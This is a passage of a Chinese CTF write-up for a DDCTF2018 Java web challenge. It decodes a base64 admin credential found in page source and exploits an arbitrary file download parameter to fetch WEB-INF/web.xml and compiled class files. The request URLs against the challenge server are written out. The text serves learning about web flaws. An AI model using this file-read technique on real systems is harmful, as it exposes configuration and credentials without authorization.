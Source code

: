 ```yaml
---
title: DDCTF2018-喝杯JAVA冷静下
date: 2018-05-03 00:00:00
categories:
- CTF/Web
tags: DDCTF JavaWeb SpringMVC+mybatis XXE OOB hashCode struts2 s2-016
---
```


题目链接：[http://116.85.48.104:5036/gd5Jq3XoKvGKqu5tIH2p/](http://116.85.48.104:5036/gd5Jq3XoKvGKqu5tIH2p/)

## 登录与任意文件下载

首页有提示信息：Quick4j By Eliteams，可以在github找到源码：

[https://github.com/Eliteams/quick4j](https://github.com/Eliteams/quick4j)

遇到登录框，不要上来就尝试注入什么的，先看看弱口令，或者题目有没有给用户账号等信息，本题在题目登录页面的源码中发现一串base64

```
YWRtaW46IGFkbWluX3Bhc3N3b3JkXzIzMzNfY2FpY2Fpa2Fu
```

解码为一个用户名密码：

```
admin: admin_password_2333_caicaikan
```

登录上去发现可下载informations/readme.txt这个文件，文件内容是Readme~~，没啥用，下载链接如下:

```
http://116.85.48.104:5036/gd5Jq3XoKvGKqu5tIH2p/rest/user/getInfomation?filename=informations/readme.txt
```

直接尝试访问根目录下相应文件，访问成功

```
http://116.85.48.104:5036/gd5Jq3XoKvGKqu5tIH2p/informations/readme.txt
```

猜测可以下载任意文件，尝试下载WEB-INF/web.xml成功

```
http://116.85.48.104:5036/gd5Jq3XoKvGKqu5tIH2p/rest/user/getInfomation?filename=WEB-INF/web.xml
```

通过这个任意文件下载，加上github中的源码，下载能找到以下的XML以及class文件：

```
WEB-INF_classes_com_eliteams_quick4j_web_controller_CommonController.class
WEB-INF_classes_com_eliteams_quick4j_web_controller_FormController.class
WEB-INF_classes_com_eliteams_quick4j_web_controller_PageController.class
WEB-INF_classes_com_eliteams_quick4j_web_controller_UserController.class
WEB-INF_classes_com_eliteams_quick4j_web_dao_PermissionMapper.class
WEB-INF_classes_com_eliteams_quick4j_web_dao_PermissionMapper.xml
WEB-INF_classes_com_eliteams_quick4j_web_dao_RoleMapper.class
WEB-INF_classes_com_eliteams_quick4j_web_dao_RoleMapper.xml
WEB-INF_classes_com_eliteams_quick4j_web_dao_UserMapper.class
WEB-INF_classes_com_eliteams_quick4j_web_dao_UserMapper.xml
WEB-INF_classes_com_eliteams_quick4j_web_model_Permission.class
WEB-INF_classes_com_eliteams_quick4j_web_model_PermissionExample.class
WEB-INF_classes_com_eliteams_quick4j_web_model_Role.class
WEB-INF_classes_com_eliteams_quick4j_web_model_RoleExample.class
WEB-INF_classes_com_eliteams_quick4j_web_model_User.class
WEB-INF_classes_com_eliteams_quick4j_web_model_UserExample.class
WEB-INF_classes_com_eliteams_quick4j_web_security_OperationType.class
WEB-INF_classes_com_eliteams_quick4j_web_security_PermissionSign.class
WEB-INF_classes_com_eliteams_quick4j_web_security_Resource.class
```